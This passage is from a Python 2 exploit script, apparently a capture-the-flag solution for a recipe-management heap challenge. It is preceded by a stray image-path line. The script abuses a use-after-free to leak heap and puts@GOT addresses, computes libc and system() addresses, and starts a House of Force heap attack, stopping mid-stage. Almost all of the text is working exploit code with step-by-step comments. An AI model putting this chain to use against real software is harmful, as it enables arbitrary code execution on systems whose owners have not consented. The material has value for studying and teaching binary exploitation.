 readuntil(f, "?")
f.write("basil\n")
readuntil(f, "?")
f.write("1\n") # set to 1 so that the address of puts() can be leaked later via the "total cals" since program multiplies cals per ingredient by number of ingred in recipe to get total
readuntil(f)
f.write("d\n")
readuntil(f)
f.write("p\n")
leaked_chunk = hex(int(readuntil(f," - ").split('\n')[4].split(' ')[0]))
heap_base = hex(int(leaked_chunk,16)-0x16d8)   
print "[*] leaked heap chunk found at address "+str(leaked_chunk)
print "[*] calculated heap base found at address "+str(heap_base)

leaked_recipe = hex(int(leaked_chunk,16)-0x6d8+0x2b0)
leaked_recipe_offset_8 = int(leaked_recipe,16)+0x8
leaked_recipe_ingred_num = int(leaked_chunk,16)-0x8

# UAF to allocate another chunk of the same size as recipe (0x40c) to replace previously freed recipe chunk
# leak puts() addr
readuntil(f)
f.write("q\n")
readuntil(f)
f.write("g\n")
readuntil(f, ":")
f.write("40c\n") # size of recipe chunk
# overwrite the previous ingredient ptr(offset + 0x0) and the previous ingredient size ptr(offset + 0x4). craft pointer to puts@GOT on (offset + 0x8) 
f.write(p(leaked_recipe_offset_8)+p(leaked_recipe_ingred_num)+p(PUTS_GOT)+"\x00"*(0x40c-0x4-0x4-0x4)+"\n")
readuntil(f)
f.write("c\n")
readuntil(f,"[n]")
f.write("p\n")
puts_addr = hex(int(readuntil(f,"[n]").split('\n')[14].split(' ')[3]))
libc_base = hex(int(puts_addr,16)-PUTS_OFFSET)
system_addr = int(libc_base,16)+SYSTEM_OFFSET
print "[*] leaked puts() found at address "+str(puts_addr)
print "[*] calculated libc_base addr at address "+str(libc_base)
print "[*] calculated system() found at address "+str(hex(system_addr))

# house of force heap exploit technique
'''
https://gbmaster.wordpress.com/2015/06/28/x86-exploitation-101-house-of-force-jedi-overflow/
https://sploitfun.wordpress.com/2015/03/04/heap-overflow-using-malloc-maleficarum/
'''
print ""
print "[+] STAGE 2"
wilderness_addr=int(heap_base,16)+WILDERNESS_OFFSET
print "[*] calculated wilderness chunk found at address "+str(hex(wilderness_addr))
readuntil(f)
f.write("n\n") # 1st HOF malloc() to create a new heap chunk next to wilderness chunk + overflow to corrupt wilderness chunk size
readuntil(f)
print "[*] overwriting wilderness chunk size w/0xffffffff" # so that mmap() is not called in order to extend the heap